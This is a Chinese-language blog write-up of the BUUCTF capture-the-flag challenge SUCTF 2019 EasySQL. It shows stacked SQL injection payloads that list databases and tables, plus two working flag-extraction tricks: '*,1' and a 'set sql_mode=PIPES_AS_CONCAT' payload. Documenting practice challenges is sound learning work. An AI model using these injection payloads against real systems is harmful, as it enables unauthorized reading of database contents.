






BUUCTF-Web-EasySql1[SUCTF 2019]EasySQL1
本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，
联系题目EasySql推测为sql注入点，
尝试输入字符串，数字，发现数字输入有回显，推测为数字注入

回显为数组输出，判断为PHP执行SQL查询后获取的结果
尝试堆叠注入，
1 | 1;show databases;# //查询所有数据库 |

继续查询
1 | 1;show tables;# //列出当前数据库中的所有表,类似文件系统中的“列出所有文件”） |

看到名为Flag的表名
1 | 1;select * from Flag //从 Flag 表中选取所有数据,* 表示“所有字段” |

发现被过滤了
推测其sql语句为：
1 | select <post输入框内容> from Flag; |
尝试输入*号构成：select * from Flag;
发现没有任何回显，
猜测查询是使用的sql语句是或(||)回显
1 | select <post输入框内容> || flag from Flag; |
Mysql中的||
||运算符相当于or，即 :
1 || 0 =1
0 || 0 =0
1 || 1 =1
我们可以修改sql_mode的值，将||视为字符串的连接操作符而非或运算符，即set sql_mode=PIPES_AS_CONCAT;
方法一：
输入*，1构成：
1 | select *,1 || flag from Flag; |

获得flag
方法二：
构造payload为：
1 | 1;set sql_mode=PIPES_AS_CONCAT;select 1 |
相当于是将select 1 和 select flag from Flag 的结果拼接在一起，也就是 select 1;的结果拼接select flag from Flag的结果

获得flag
本博客所有文章除特别声明外，均采用 CC BY-NC-SA 4.0 许可协议。转载请注明来源 半枫！